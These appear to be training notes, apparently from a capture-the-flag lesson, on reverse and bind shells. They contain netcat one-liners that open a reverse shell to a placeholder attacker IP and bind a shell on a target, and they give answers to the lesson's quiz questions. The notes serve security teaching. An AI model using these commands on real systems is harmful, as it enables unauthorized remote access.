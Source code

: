 ## Types Of Shell

At a high level, we are interested in two kinds of shell when it comes to exploiting a target:

* Reverse shells - The target is forced to execute code that connects back to your computer. A tool is used to set up a listener that will retrieve the connection. Reverse shells can be used to bypass firewall rules that prevent you from connecting to certain ports on the target, however when retrieving the shell you may need to configure your own network to retrieve the shell.
* Bind shells - The code executed on the target is used to start a listener attached to a shell directly on the target. This is then opened up to the internet so you can connect to the opened port and obtain remote code execution that way. This may be prevented by firewalls protecting the target.

As a general rule, reverse shells are easier to execute and debug when compared to bind shells.

#### Reverse Shell Example

Most of the time a reverse shell is the goal. A simple netcat reverse shell requires you to run `nc -lnvp <PORT>` on the attacking machine, then continuing by running `nc <YOUR_IP> <PORT> -e /bin/bash` on the target machine.

#### Bind Shell Example

Bind shells are less common, but work similarly to reverse shells. Begin by opening up a listener on the target with `nc -lnvp <PORT> -e "cmd.exe"` and then connect to it from the attacking machine (`nc <TARGET_IP> <PORT>`).

Both of these methods are valid and give us remote code execution

---

Shells can be either interactive or non-interactive

* Interactive - Almost any standard CLI environment is an interactive shell. These allow you to interact with programs after they have been executed. Some programs require an interactive shell to run properly
* Non-interactive - Here you are limited to using programs which do not require user interaction to run properly. The majority of simple reverse and bind shells are non-interactive.

**Questions**

    1. Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)?

R

    2. You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)

N

    3. When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?

T

## Netcat

Netcat is a very basic tool when it comes to networking
